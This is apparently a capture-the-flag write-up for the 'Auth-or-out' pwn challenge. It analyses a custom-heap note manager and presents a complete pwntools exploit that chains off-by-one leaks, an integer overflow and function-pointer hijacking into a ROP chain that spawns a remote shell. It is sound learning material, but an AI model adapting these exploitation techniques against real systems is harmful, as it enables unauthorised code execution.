

pwn Download
Auth-or-out [60]
In this challenge, we are given an executable auth-or-out, which i have shortened to auth. The name might lead you to believe the challenge is about authentication, but that would be wrong. Running the program, we see that it is an author-note manager. This challenge contains some quite complicated code, so i will be using ghidra instead of IDA. ghidra struggled a bit with it, so we might see some variable collisions.
The program contains a few interesting functions.
-
main
-
delete_author
-
print_author
-
add_author
-
modify_author
Let's go through them one-by-one.
Program analysis
main
int main(void)
{
_Bool _Var1;
ulonglong uVar2;
long in_FS_OFFSET;
uchar CustomHeap [14336];
undefined auStack24 [8];
long local_10;
local_10 = *(long *)(in_FS_OFFSET + 0x28);
setvbuf(stdin,(char *)0x0,2,0);
setvbuf(stdout,(char *)0x0,2,0);
memset(CustomHeap,0,14336);
_Var1 = ta_init(CustomHeap,auStack24,10,0x10,8);
if (_Var1 != false) {
puts("*** Welcome to DZONERZY authors editor v0.11.2 ***");
switchD_00101a4f_caseD_0:
uVar2 = print_menu();
switch(uVar2) {
case 1:
add_author();
goto switchD_00101a4f_caseD_0;
case 2:
modify_author();
goto switchD_00101a4f_caseD_0;
case 3:
print_author();
goto switchD_00101a4f_caseD_0;
case 4:
delete_author();
goto switchD_00101a4f_caseD_0;
case 5:
goto switchD_00101a4f_caseD_5;
}
}
LAB_00101a9b:
if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
/* WARNING: Subroutine does not return */
__stack_chk_fail();
}
return 0;
switchD_00101a4f_caseD_5:
puts("bye bye!");
goto LAB_00101a9b;
}
As the entry point of the program, this function serves to control call the functions the user requests. Additionally, we see a section of the code creates a custom heap, interresting. If we dig into the strings of the program, we'll find a hint:
tinyalloc: https://github.com/thi-ng/tinyalloc
A github link to the specific implementation the program uses, quite useful. I will get back to this topic later, for now, let's move on.
add_author
Probably the most important function of the program.
void add_author(void)
{
PAuthor address;
ulonglong age;
ulonglong note_size;
char *note_address;
size_t size;
ulonglong i;
ulonglong NoteSize;
i = 0;
while( true ) {
if (9 < i) {
puts("MAX AUTHORS REACHED!");
return;
}
if (authors[i] == (PAuthor)0x0) break;
i = i + 1;
}
address = (PAuthor)ta_alloc(56);
authors[i] = address;
if (authors[i] != (PAuthor)0x0) {
authors[i]->Print = PrintNote;
printf("Name: ");
get_from_user(authors[i]->Name,0x10);
printf("Surname: ");
get_from_user(authors[i]->Surname,0x10);
printf("Age: ");
address = authors[i];
age = get_number();
address->Age = age;
printf("Author Note size: ");
note_size = get_number();
if (note_size != 0) {
address = authors[i];
note_address = (char *)ta_alloc(note_size + 1);
address->Note = note_address;
if (authors[i]->Note == (char *)0x0) {
printf("Invalid allocation!");
/* WARNING: Subroutine does not return */
exit(0);
}
printf("Note: ");
if (note_size < 257) {
size = note_size + 1;
}
else {
size = 256;
}
get_from_user(authors[i]->Note,size);
}
printf("Author %llu added!\n\n",i + 1);
return;
}
printf("Invalid allocation!");
/* WARNING: Subroutine does not return */
exit(0);
}
This function handles the creation of a new author. It also gives us an insight into how the authors are stored. To abstract it:
Author:
-
Name
-
Surname
-
*Note -> chunk[note_size]
-
Age
-
PrintNote
These are then stored in an array in the .bss section. Both the attribute and note section are chunks, allocated by ta_alloc.
Interestingly, the function increments note_size by one when below 257.
print_author
void print_author(void)
{
ulonglong id;
ulonglong authorid;
PAuthor a;
PAuthor address;
do {
printf("Author ID: ");
id = get_number();
putchar(10);
} while (10 < id);
address = authors[id - 1];
if (address == (PAuthor)0x0) {
printf("Author %llu does not exists!\n\n",id);
}
else {
puts("----------------------");
printf("Author %llu\n",id);
printf("Name: %s\n",address);
printf("Surname: %s\n",address->Surname);
printf("Age: %llu\n",address->Age);
(*address->Print)(address->Note);
puts("-----------------------");
putchar(10);
}
return;
}
This function is quite simple. It first checks if the given author exists, then prints all attributes to the user. The most important thing to notice here, is that it uses printf, which is null-terminated. If the heap isn't cleaned properly, we might be able to abuse this.
modify_author
void modify_author(void)
{
PAuthor buffer;
ulonglong id;
ulonglong authorid;
PAuthor a;
do {
printf("Author ID: ");
id = get_number();
putchar(10);
} while (10 < id);
buffer = authors[id - 1];
if (buffer == (PAuthor)0x0) {
printf("Author %llu does not exists!\n\n",id);
}
else {
printf("Name: ");
get_from_user(buffer->Name,0x10);
printf("Surname: ");
get_from_user(buffer->Surname,0x11);
printf("Age: ");
id = get_number();
buffer->Age = id;
putchar(10);
}
return;
}
Here we are able to modify existing authors. By itself this function is quite useless to us, since we can't change the Note content, but a small error flips that on its head. The function reads an extra byte for the surname, thus eliminating the null-terminator. Can we leak something?
delete_author
void delete_author(void)
{
PAuthor free;
ulonglong id;
ulonglong authorid;
PAuthor a;
do {
printf("Author ID: ");
id = get_number();
putchar(10);
} while (10 < id);
free = authors[id - 1];
if (free == (PAuthor)0x0) {
printf("Author %llu does not exists!\n\n",id);
}
else {
ta_free(free->Note);
ta_free(free);
authors[id - 1] = (PAuthor)0x0;
printf("Author %llu deleted!\n\n",id);
}
return;
}
Last but not least, delete_author. There is not much to this function, but we can make some conclusions:
-
Both the Note and the Author object itself is freed.
-
The pointer is properly discarded.
-
The function checks if the author exists, to avoid a null or double free.
tinyalloc
The inclusion of a hint within the program, would lead you to believe that it is important. I would certainly agree than understand chunk allocation and freeing is important for this challenge, but the specific implenentation, not so much. It does give us an idea about the arguments provided though. I leave you with a diagram over the heap structure:

Exploiting
So as you might have gathered already, there is potential for some pretty hefty leaks. The binary is compiled with both PIE and ASLR, so doing any form of rop-chain would require leaks. The program is also compiled with a canary, but the lack of any buffer overflows make that more or less irrelevent. I will go through my findings in order:
Leaking the stack
The first potential leak that came to mind, was the one found in modify_author. You might remember this line:
get_from_user(buffer->Surname,0x11);
First off, is this a one-byte overflow? If we are reading 17 bytes into a 16 byte space, that would overflow the lowest byte of the following address. Let's check out get_from_user:
int get_from_user(char *buffer,size_t size)
{
int iVar1;
ssize_t sVar2;
long in_FS_OFFSET;
char c;
int fd;
size_t cnt;
long local_10;
local_10 = *(long *)(in_FS_OFFSET + 0x28);
cnt = 0;
if ((buffer == (char *)0x0) || (size == 0)) {
iVar1 = 0;
}
else {
fd = 0;
while( true ) {
sVar2 = read(fd,&c,1);
if ((sVar2 != 1) || (size - 1 <= cnt)) break;
if (c == '\n') {
iVar1 = 1;
goto LAB_00101359;
}
buffer[cnt] = c;
cnt = cnt + 1;
}
iVar1 = 1;
}
LAB_00101359:
if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
/* WARNING: Subroutine does not return */
__stack_chk_fail();
}
return iVar1;
}
Quite a large function just for reading an input. As we can see, it reads a single byte at a time, and then checks if the byte is "\n". We can also see, that the function refrains from writing the last byte. So when the program requests 0x11 bytes, it actually gets 0x10, damnit. But this could still leak a value. In order to know what it could leak, let's dive into gdb.
Setting a breakpoint in the print_author-function, we can examine the structure after creating a single author. using info file to get the address of .bss, .bss contains this:
gdb-peda$ x/22gx 0x0000555555603060
0x555555603060 <stdout@@GLIBC_2.2.5>: 0x00007ffff7df5760 0x0000000000000000
0x555555603070 <stdin@@GLIBC_2.2.5>: 0x00007ffff7df4a80 0x0000000000000000
0x555555603080 <heap>: 0x00007fffffffa610 0x00007fffffffde10
0x555555603090 <heap_split_thresh>: 0x0000000000000010 0x0000000000000008
0x5555556030a0 <heap_max_blocks>: 0x000000000000000a 0x0000000000000000
0x5555556030b0: 0x0000000000000000 0x0000000000000000
0x5555556030c0 <authors>: 0x00007fffffffa720 0x0000000000000000
0x5555556030d0 <authors+16>: 0x0000000000000000 0x0000000000000000
0x5555556030e0 <authors+32>: 0x0000000000000000 0x0000000000000000
0x5555556030f0 <authors+48>: 0x0000000000000000 0x0000000000000000
0x555555603100 <authors+64>: 0x0000000000000000 0x0000000000000000
Ignoring all but the authors section, we see an array of pointers containing one pointer. Inputting this pointer:
gdb-peda$ x/8gx 0x00007fffffffa720
0x7fffffffa720: 0x4141414141414141 0x0041414141414141
0x7fffffffa730: 0x4242424242424242 0x0042424242424242
0x7fffffffa740: 0x00007fffffffa758 0x0000000000000010
0x7fffffffa750: 0x0000555555401219 0x4343434343434343
Interesting, the first name is stored in the first 16 bytes, surname in the next, a pointer to the note after that, then age, and finally the PrintNote function. The Note is located right after the main chunk in this case, only because it was the first available address. In theory its location within the heap is arbitrary. Back on track, it does indeed seem like we can leak the Note location. With that, we can calculate the location of the rip, perhaps useful later. Using the modify_author-function, we change the values:
gdb-peda$ x/8gx 0x00007fffffffa720
0x7fffffffa720: 0x4141414141414141 0x0041414141414141
0x7fffffffa730: 0x4242424242424242 0x4242424242424242
0x7fffffffa740: 0x00007fffffffa758 0x000000000000000a
0x7fffffffa750: 0x0000555555401219 0x4343434343434343
And calling the print_author-function, we get a leak:
----------------------
Author 1
Name: AAAAAAAAAAAAAAA
Surname: BBBBBBBBBBBBBBBBX����
Age: 10
Note: [CCCCCCCC]
-----------------------
Leaking pie
After leaking the stack, i actually went blank for a while. I knew that the heap wasn't cleaned after use, so maybe if we created two authors, located right after one another in the heap, then deleted both, and created a new one in the first ones place, we could write values up until the PrintNote-function, thus leaking it through print_author. That might work, only one problem: get_from_user will only read $n-1$ bytes into the program. Here, we make use of the off-by-one error in add_author:
if (note_size < 257) {
size = note_size + 1;
}
else {
size = 256;
}
get_from_user(authors[i]->Note,size);
As you can see, we can actually write the full 256 bytes, if we specify 256 as the length. Doing this by hand is cumbersome, so i wrote up a little script to test it:
from pwn import *
context.gdbinit = "~/peda/peda.py"
conn = gdb.debug("./auth", '''
break *print_author
break *main
c
''')
def add_author(first_name, sur_name, age, note_size, note):
conn.recvuntil(b"Choice: ", timeout=1)
conn.sendline(b"1")
conn.recvuntil(b": ")
conn.sendline(first_name.encode())
conn.recvuntil(b": ")
conn.sendline(sur_name.encode())
conn.recvuntil(b": ")
conn.sendline(str(age).encode())
conn.recvuntil(b": ")
conn.sendline(str(note_size).encode())
conn.recvuntil(b": ")
conn.sendline(note.encode())
index = int(conn.recvline().split(b" ")[1].decode())
return index
def delete_author(index):
conn.recvuntil(b"Choice: ", timeout=1)
conn.sendline(b"4")
conn.recvuntil(b": ")
conn.sendline(str(index).encode())
conn.recvline()
def leak_pie():
a1 = add_author("A" * 8, "B" * 8, 16, 200, "C" * 8)
a2 = add_author("D" * 8, "E" * 8, 16, 8, "F" * 8)
delete_author(a1)
delete_author(a2)
a1 = add_author("G" * 8, "H" * 8, 16, 256, "I" * 257)
res = print_author(a1)
last_i = res.rfind(b"I")
last_b = res.rfind(b"]")
pie_leak = address_from_bytes(res[last_i + 1: last_b])
delete_author(a1)
return pie_leak
pie_leak = leak_pie()
The note length is carefully selected, such that the note from the new author and the PrintNote pointer from the old author lines up, leaking the address. Omitting the last section of leak_pie, and instead triggering interactive, we get this output:
----------------------
Author 1
Name: GGGGGGGG
Surname: HHHHHHHH
Age: 16
Note: [IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII@UUU]
-----------------------
Therefore, pie is leaked.
The arbitrary write
As we have now leaked both the stack and pie, we have to move on to actually exploiting the program. The solution to this took me the longest, and it required quite a bit of pondering. The main trick of this exploit, is the very same off-by-one error that we used earlier:
if (note_size != 0) {
address = authors[i];
note_address = (char *)ta_alloc(note_size + 1);
address->Note = note_address;
if (authors[i]->Note == (char *)0x0) {
printf("Invalid allocation!");
/* WARNING: Subroutine does not return */
exit(0);
}
printf("Note: ");
if (note_size < 257) {
size = note_size + 1;
}
else {
size = 256;
}
get_from_user(authors[i]->Note,size);
}
printf("Author %llu added!\n\n",i + 1);
return;
Do you see anything unusual here? If you noticed it, props to you, if not, look at line 3:
note_address = (char *)ta_alloc(note_size + 1);
The program allocates note_size + 1, without any kind of overflow prevention. If note_size is the maximum value, which in the case of the llu is $2^{64}-1$, then the program will actually allocate 0 bytes. Then further down, the size will be set to the default, 256. ta_alloc will think the program needs 0 bytes, thus returning a pointer that could be right before an allocated section. This would allow us to overwrite values in other authors. This might not sound so useful, until we realize, that the Author object holds a pointer to the PrintNote-function, which it calls during print_author. If we can write our own value into this field, then we can redirect codeflow for a function call.
This is a breakthrough, but we are not done yet. Even if we can call an arbitrary address using this method, we still don't have the ability to pop a shell. We can't call system("/bin/sh"), as we haven't leaked libc yet, and NX is enabled, so no shellcode.
After some thinking, i arrived at a solution: We can use get_from_user. get_from_user takes two arguments, *buffer and count. We already control *buffer, as that would simply be the address of the Note, which we can overwrite. As for count, jumping into the assembly reveals, that rsi is actually assigned to age, due to the previous function call, a value that we can also overwrite. With this, we can craft an exploit:
- Create 2 authors with any size Note
- Delete first author, chunk is put into freed
- Create new author with a Note size of $2^{64}-1$
add_authorincrements note_size by one as padding, overflowing the integer
tinyalloc allocates previous used space, together with pointer for a 0-byte chunk
add_authorsets default length 256, we can write bytes into 0-byte chunk
Note is carefully crafted, such that it overwrites: PrintNotewithget_from_user- *Note with rip-pointer
Doing these steps, will create an author, that upon print_author being called, will write any user input into the rip-pointer, permantly establishing control over the return pointer.
Leaking libc
With control over rip established, we can easily leak the necesarry addresses to determine libc version. As it is fairly mundane, i will not go over the process. If you want to do it yourself, simply modify the leak_libc function in the final solution, to instead print the got-address of various functions, putting that into a database. I have chosen to include the correct libc version in this folder. The correct version is libc6_2.27-3ubuntu1.3_amd64.so.
Solution
My final solution uses lots of helper function to make the experience easier. It can also be found in solve.py.
from pwn import *
from sys import argv
remote = False
if "-r" in argv: # Switch between local and remote
remote = True
elf = context.binary = ELF("./auth")
if remote:
conn = connect("178.62.63.223", 30493)
libc = ELF("./libc-remote.so.6")
else:
libc = ELF("./libc-local.so.6")
# conn = process("./auth")
context.gdbinit = "~/peda/peda.py"
conn = gdb.debug("./auth", '''
break *print_author
break *main
c
''') # Using pwn.gdb for debug, can switch to straight process
def address_from_bytes(by): # Take a bytestring as input, pad and convert to address
by += b"\x00" * (8 - len(by))
by = u64(by)
return by
def add_author(first_name, sur_name, age, note_size, note=None): # Interact with add_author function
conn.recvuntil(b"Choice: ", timeout=1)
conn.sendline(b"1")
conn.recvuntil(b": ")
conn.sendline(first_name.encode())
conn.recvuntil(b": ")
conn.sendline(sur_name.encode())
conn.recvuntil(b": ")
conn.sendline(str(age).encode())
conn.recvuntil(b": ")
conn.sendline(str(note_size).encode())
if note: # If note_size is 0, program won't ask for note contents
conn.recvuntil(b": ")
conn.sendline(note.encode() if type(note) == str else note)
index = int(conn.recvline().split(b" ")[1].decode()) # Extract assigned id from response
return index
def modify_author(index, first_name, sur_name, age): # Interact with modify_author function
conn.recvuntil(b"Choice: ", timeout=1)
conn.sendline(b"2")
conn.recvuntil(b": ")
conn.sendline(str(index).encode())
conn.sendline(first_name.encode())
conn.recvuntil(b": ")
conn.sendline(sur_name.encode())
conn.recvuntil(b": ")
conn.sendline(str(age).encode())
conn.recvuntil(b": ")
def print_author(index): # Interact with print_author function
conn.recvuntil(b"Choice: ", timeout=1)
conn.sendline(b"3")
conn.recvuntil(b": ")
conn.sendline(str(index).encode())
return conn.recv(4096)
def delete_author(index): # Interact with delete_author function
conn.recvuntil(b"Choice: ", timeout=1)
conn.sendline(b"4")
conn.recvuntil(b": ")
conn.sendline(str(index).encode())
conn.recvline()
def leak_pie():
"""
This function leaks the pie address for PrintNote.
Method:
1. Create one author with a note of size 200
2. Create a second author with any note size
3. Delete both authors, marking them free
4. Create new author, with note of size 256
add_author function increments size by one, no null-byte exist as seperator
6. Printf continues reading after note, correct alligment means PrintNote address is printed
7. Stonks
Same method could be used to leak the stack, but the binary provides an easier and cleaner method.
"""
a1 = add_author("A" * 8, "B" * 8, 16, 200, "C" * 8)
a2 = add_author("D" * 8, "E" * 8, 16, 8, "F" * 8)
delete_author(a1)
delete_author(a2)
a1 = add_author("G" * 8, "H" * 8, 16, 256, "I" * 257)
res = print_author(a1)
last_i = res.rfind(b"I")
last_b = res.rfind(b"]")
pie_leak = address_from_bytes(res[last_i + 1: last_b])
delete_author(a1)
return pie_leak
def leak_stack():
"""
This function leaks the Note address for a given author.
Since tinyalloc is deterministic (obvio), we can apply a static offset to calculate rip
Method:
1. Create any author
2. Modify the surname of the author, abusing the off by one error in modify author
3. Call print_author, printf reads over surname and Note address
As mentioned in leak_pie, there are actually two methods to leak the stack
"""
a1 = add_author("A" * 8, "B" * 15, 16, 8, "C" * 8)
modify_author(a1, "A" * 8, "B" * 16, 16)
res = print_author(a1)
first = res.rfind(b"BBBB") + 4
last = res.find(b"\nAge:")
heap_leak = address_from_bytes(res[first: last])
rip = heap_leak - 0x150 # Static offset manually calculated
delete_author(a1)
return rip
def cleanup():
"""
Bit of an irrelevant function to clean the heap up a bit when debugging
Doesn't really do much
"""
a1 = add_author("", "", 0, 256, (b"\x00" * 256).decode())
a2 = add_author("", "", 0, 256, (b"\x00" * 256).decode())
a3 = add_author("", "", 0, 256, (b"\x00" * 256).decode())
delete_author(a1)
delete_author(a2)
delete_author(a3)
def create_write_gadget(address):
"""
Probably the most interesting function. Generates an author for arbitrary write to the program
Method:
1. Create 2 authors with any size Note
2. Delete first author, chunk is put into freed
3. Create new author with a Note size of 2**64 - 1
add_author increments note_size by one as padding, overflowing the integer
tinyalloc allocates previous used space, together with pointer for 0-byte chunk
add_author sets default length 256, we can write bytes into 0-byte chunk
Note is carefully crafted, such that it overwrites:
- PrintNote with get_from_user
- *Note with rip-pointer
print_author will now trigger get_from_user
Damn that is cool. Great challenge!
"""
a1 = add_author("A" * 8, "B" * 8, 0x100, 8, "C" * 8)
a2 = add_author("D" * 8, "E" * 8, 0x100, 8, "F" * 8)
delete_author(a1)
note = b"A" * (4 * 8 + 16)
note += p64(address)
note += b"A" * 8
note += p64(elf.sym["get_from_user"])
a1 = add_author("A" * 8, "B" * 8, 0x100, 2**64 - 1, note)
return a2
def arbitrary_write(author, payload, wait=True):
# Use poisoned author to write to fixed address
if wait: # Function may be called from rop-chain, don't select menu
conn.recvuntil(b"Choice: ", timeout=1)
conn.sendline(b"3")
conn.recvuntil(b": ")
conn.sendline(str(author).encode())
conn.recvuntil(b"Age: ") # Following age being printed, get_from_user is called
conn.sendline(payload)
def leak_libc(author):
# leak libc using got, can be changed to determine libc version
payload = p64(pop_rdi)
payload += p64(elf.got["puts"])
payload += p64(elf.plt["puts"])
payload += p64(elf.sym["print_author"])
arbitrary_write(author, payload)
conn.recvuntil(b"\n\n")
puts_leak = address_from_bytes(conn.recvline()[:-1])
return puts_leak
def get_shell(author):
# The final goal: obtain shell either locally or remotely
if remote: # Use one_gadget generated by one_gadget
one_gadget = 0x10a41c + libc.address
payload = p64(one_gadget)
else: # Modern libc versions don't have one_gadgets, do it manually
payload = p64(pop_rdi)
payload += p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(libc.sym["system"])
arbitrary_write(author, payload, wait=False)
conn.interactive()
elf.address = leak_pie() - elf.sym["PrintNote"]
print(f"Leaked pie address {hex(elf.address)}")
rop = ROP(elf)
pop_rdi = rop.rdi.address
rip = leak_stack()
print(f"Leaked rip address {hex(rip)}")
cleanup()
write_gadget = create_write_gadget(rip)
puts_leak = leak_libc(write_gadget)
libc.address = puts_leak - libc.sym["puts"]
print(f"Leaked libc address {hex(libc.address)}")
get_shell(write_gadget)
Changing the host and port to the correct value, we can now run the function with the -r argument, which should give us a shell:
python solve.py -r
[*] '/home/kali/Desktop/auth/auth'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
[+] Opening connection to 178.62.63.223 on port 30493: Done
[*] '/home/kali/Desktop/auth/libc-remote.so.6'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
Leaked pie address 0x5629e5600000
[*] Loaded 17 cached gadgets for './auth'
Leaked rip address 0x7ffec0bc5a68
Leaked libc address 0x7fb7e76dd000
[*] Switching to interactive mode
4702111234474983745
$ ls
auth-or-out flag.txt
$ cat flag.txt
htb{expl01ting_cust0m_h3ap_4_fun_3_pr0f1t}
And we get our flag, HTB{expl01ting_cust0m_h3ap_4_fun_3_pr0f1t}.